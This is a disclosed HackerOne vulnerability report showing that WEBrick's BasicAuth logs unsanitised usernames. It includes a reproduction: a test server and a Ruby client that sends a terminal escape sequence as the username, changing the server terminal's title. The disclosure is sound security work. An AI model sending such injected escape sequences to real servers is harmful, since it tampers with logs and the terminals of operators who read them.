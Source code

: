 # Escape sequence injection vulnerability in WEBrick BasicAuth

## Report Details
- **Report ID**: 223363
- **URL**: https://hackerone.com/reports/223363
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-24T10:25:41.154Z
- **Disclosed**: 2017-09-15T05:29:39.737Z

## Reporter
- **Username**: mame
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
WEBrick BasicAuth outputs any non-existing user name to logs without sanitizing.  By exploting this, an attacker can inject malicious escape sequences to its logs.  This issue is exactly the same as [the old already-fixed vulnerability](https://www.ruby-lang.org/en/news/2010/01/10/webrick-escape-sequence-injection/).

How to reproduce:

1) Run this WEBrick server program in a terminal.

~~~~
require "webrick"
require "webrick/httpauth"

srv = WEBrick::HTTPServer.new({ Port: 34567 })
db = WEBrick::HTTPAuth::Htpasswd.new("dot.htpasswd")
authenticator = WEBrick::HTTPAuth::BasicAuth.new(UserDB: db, Realm: "realm")
srv.mount_proc("/") do |req, res|
  authenticator.authenticate(req, res)
  res.body = "foobar"
end
srv.start
~~~~

2) Run this attack access program in another terminal.

~~~~
require "open-uri"

open("http://localhost:34567/login",
  http_basic_authentication: [
      "ESCAPE SEQUENCE HERE->\e]2;BOOM!\a<-SEE WINDOW TITLE",
      "passwd"
]).read
~~~~

3) See the first terminal that runs the server.  You will see a line like this, and its window title changed "BOOM!".

~~~~
[2017-04-24 19:23:46] ERROR Basic realm: ESCAPE SEQUENCE HERE-><-SEE WINDOW TITLE: the user is not allowed.
~~~~

Note: I'm a member of the ruby-core team, but I'm not involved with development of WEBrick.  I did not create the bug, of course.  I will happily accept any bounty if any :-)

## Attachments
No attachments
